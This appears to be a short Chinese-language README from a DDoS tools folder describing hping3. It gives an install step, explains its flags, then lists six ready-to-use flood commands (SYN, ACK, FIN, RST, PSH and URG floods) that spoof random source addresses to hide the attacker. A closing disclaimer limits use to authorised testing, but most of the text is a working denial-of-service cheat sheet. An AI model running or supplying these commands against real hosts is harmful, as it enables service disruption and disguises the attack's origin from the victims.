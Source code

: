 ### 自动化安装hping3
    sudo python3.8 ddos/hping3/hping3.py

### 参数
- -S SYN 标志。

- -w 64: TCP 窗口大小设置为 64。

- -p 22: 目标端口。

- --rand-source: 使用伪随机 IP 地址作为源地址（伪装攻击来源）。

- --data 800: 数据负载为 800 字节。



### 🔥 SYN Flood 攻击
    hping3 dstip -p dstport --flood -S -w 64 --rand-source --data 800

### 📡 ACK Flood 攻击
    hping3 dstip -p dstport --flood -A -w 64 --rand-source --data 800

### 🧨 FIN Flood 攻击
    hping3 dstip -p dstport --flood -F -w 64 --rand-source --data 800

### ⚠️ RST Flood 攻击
    hping3 dstip -p dstport --flood -R -w 64 --rand-source --data 800

### 📤 PSH Flood 攻击
    hping3 dstip -p dstport --flood -P -w 64 --rand-source --data 800

### 🚨 URG Flood 攻击
    hping3 dstip -p dstport --flood -U -w 64 --rand-source --data 1400

### 注意事项
- 所有攻击命令 仅限于合法授权的测试环境。
    
- 切勿对公共网络或未授权的设备使用此类命令。
    
- 违反相关法律法规将承担法律责任。


